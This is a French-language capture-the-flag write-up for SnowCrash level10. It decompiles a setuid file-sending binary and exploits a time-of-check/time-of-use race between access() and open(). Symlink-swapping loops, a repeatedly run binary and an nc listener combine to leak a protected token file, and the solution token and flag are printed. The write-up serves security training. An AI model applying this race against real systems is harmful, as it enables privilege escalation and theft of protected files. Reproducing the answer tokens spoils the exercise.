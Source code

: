 Il y a deux fichiers, un binaire et un fichier token le token est en rw.
En éxécutant le binaire on recoit un message d'erreur.

```bash 
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```
on extrait le binaire avec `scp` et on le décompile avec `ghidra` pour voir le code source.
```bash
scp -P 4242 level10@127.0.0.1:/home/user/level10/level10 .
```

```bash
void main(int param_1,undefined4 *param_2)
{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (param_1 < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = (char *)param_2[1];
  __cp = (char *)param_2[2];
  iVar2 = access((char *)param_2[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write ( iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
On voit que le binaire se connecte à une socket sur le port `6969` et envoie le contenu du fichier passé en argument.

Dans le code nous voyons aussi que le binaire essaye d'accéder au fichier passé en argument avec la fonction `access` et si l'accès est refusé il affiche un message d'erreur. puis il essaye d'ouvrir le fichier avec la fonction `open`,si l'ouverture est refusée il affiche un message d'erreur, autrement il print le contenu du fichier dans le socket.

Nous allons reproduire la faille TOUCTOU qui consiste à envoyer un lien symbolique vers le fichier `token` qui est en `rw` pour le user `level10` et d'essayer de lire en continue le fichier. Le léger timing entre le access et open nous permettra en forçant d'y accéder.

On se connecte au port `6969` avec `nc`

```bash
level10@SnowCrash:~$ nc -l 6969
```

Via un autre terminal nous créons un lien symbolique vers le fichier `token` dans le répertoire `/tmp` et nous le nommons `level11` en boucle.

```bash
while true; do ln -fs /home/user/level10/level10 /tmp/level11tmp; ln -sf /home/user/level10/token /tmp/level11tmp; done
```
Et avec un dernier terminal  nous lançons le binaire `level10` avec le lien symbolique `level11` en boucle.

```bash
while true; do ./level10 /tmp/level11tmp 10.0.2.15; done
```

Sur le terminal ou nous avons lancé `nc` nous voyons le contenu du fichier `token` s'afficher.

```bash
level10@SnowCrash:~$ nc -l 6969

.*( )*.
woupa2yuojeeaaed06riuj63c
```
Nous nous connectons au user `flag10` et nous faisons le `getflag`.

```bash
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

